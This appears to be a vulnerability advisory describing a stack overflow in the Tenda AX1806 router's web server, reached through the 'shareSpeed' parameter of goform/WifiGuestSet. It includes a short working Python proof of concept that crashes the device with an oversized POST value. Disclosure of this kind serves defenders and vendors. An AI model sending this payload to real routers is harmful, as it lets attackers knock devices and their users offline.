


## Overview

- The device's official website: https://www.tenda.com.cn/product/AX1806.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3306.html

## Affected version

v1.0.0.1

## Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the fromSetWifiGusetBasic function, which can be accessed via the URL `goform/WifiGuestSet`.  

- 

The function takes the POST parameter `shareSpeed`, does not validate its length, and copies it directly to a local variable `acStack1888` on the stack, causing a stack overflow.  

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"shareSpeed": b'A'*0x800
}
res = requests.post("http://127.0.0.1/goform/WifiGuestSet", data=data)
print(res.content)
```

debug result:



